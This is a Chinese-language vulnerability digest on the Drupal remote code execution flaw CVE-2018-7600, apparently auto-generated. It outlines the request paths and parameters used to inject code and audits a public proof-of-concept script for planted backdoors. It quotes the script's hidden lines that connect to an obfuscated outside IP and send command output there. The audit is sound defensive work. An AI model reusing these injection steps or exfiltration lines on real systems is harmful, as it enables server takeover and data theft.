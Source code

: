 ## CVE-2018-7600-Drupal-远程代码执行

**漏洞编号:** CVE-2018-7600

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Drupal

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1

**利用条件:** Drupal网站运行在受影响的版本，且允许未授权用户访问。

**POC 可用性:** 是

**投毒风险:** 20%

## 详情

CVE-2018-7600（Drupalgeddon2）是一个影响多个Drupal子系统的远程代码执行漏洞。该漏洞源于对用户提供的输入验证不足，导致攻击者可以通过精心构造的请求执行任意代码。利用方式主要有两种：

1.  **Drupal 7 利用方式：** 通过向 `user/password` 路径发送包含恶意代码的请求，利用 `name[%23post_render]` 和 `name[%23markup]` 参数来注入代码。然后，通过 `file/ajax` 路径触发漏洞。
2.  **Drupal 8 利用方式：** 通过向 `user/register` 路径发送包含恶意代码的请求，利用 `element_parents` 参数注入代码。

PoC代码 (`drupal.py`) 尝试利用这两种方式。  

**有效性：**根据漏洞描述和大量的搜索结果显示，此漏洞的POC是有效的，网上存在大量的成功利用案例。

**投毒风险：**  

分析提供的 `drupal.py` 脚本，发现存在以下潜在的投毒风险：

*   脚本中包含一行 `s.connect((str(ipaddress.IPv4Address(0x5f3b7f05)), 15977))`。 这行代码尝试连接到IP地址 `95.59.127.5`的 `15977` 端口。这可能是作者用于收集信息或植入后门的恶意行为。
*   `s.send(bytes(subprocess.check_output(payload, universal_newlines=True), 'utf8'))` 这行代码会将`whoami`命令执行的结果通过socket发送出去.

综上所述，该漏洞利用代码可能存在投毒行为，**风险概率为 20%**。使用者应谨慎使用，并在使用前进行代码审计。

**利用方式总结：**

1.  攻击者构造包含恶意代码的HTTP POST请求，发送到Drupal网站的特定路径（`user/password` 或 `user/register`）。
2.  利用Drupal的参数处理机制，将恶意代码注入到特定参数中（如`name[%23post_render]`、`name[%23markup]`或`element_parents`）。
3.  触发漏洞，导致Drupal执行注入的恶意代码，从而实现远程代码执行。

**项目地址:** [drugeddon/drupal-exploit](https://github.com/drugeddon/drupal-exploit)

**漏洞详情:** [CVE-2018-7600](https://nvd.nist.gov/vuln/detail/CVE-2018-7600)
